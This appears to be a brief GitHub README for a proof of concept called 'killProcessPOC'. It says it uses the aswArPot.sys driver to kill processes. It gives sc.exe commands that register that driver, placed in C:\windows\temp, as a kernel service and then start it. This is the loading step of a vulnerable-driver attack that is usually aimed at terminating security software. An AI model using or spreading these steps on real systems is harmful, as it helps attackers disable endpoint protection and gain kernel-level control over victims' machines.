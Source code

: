 # killProcessPOC
use aswArPot.sys to kill process

```
sc.exe create aswSP_ArPots binPath=C:\windows\temp\aswarpot.sys type=kernel

sc.exe start aswSP_ArPots

```
